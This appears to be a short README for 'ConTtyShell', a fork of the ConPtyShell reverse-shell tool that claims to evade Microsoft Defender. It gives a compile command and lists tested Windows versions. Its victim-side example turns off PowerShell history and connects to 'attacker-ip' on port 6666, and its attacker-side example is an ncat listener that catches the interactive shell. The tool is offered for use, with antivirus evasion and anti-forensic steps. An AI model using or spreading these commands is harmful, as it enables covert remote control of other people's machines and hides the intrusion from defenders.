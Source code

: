 # ConTtyShell
ConPtyShell Fork that Evades Microsoft Defender (13/06/2023)

**Original:**

https://github.com/antonioCoco/ConPtyShell

**Compile with:**

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /platform:x64 -nologo -debug -out:ConTtyShell.exe .\ConTtyShell.cs`

**Tested on:**
* Windows Server 2016 Datacenter 10.0 x64 Build 14393
* Windows 10 22H2 x64
* Windows 11 22H2 x64


**Victim side usage example:**

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing
.\ConTtyShell.exe attacker-ip 6666
```

**Attacker side usage example:**

```
stty raw -echo; (stty size; cat) | ncat -lvnp 6666
```
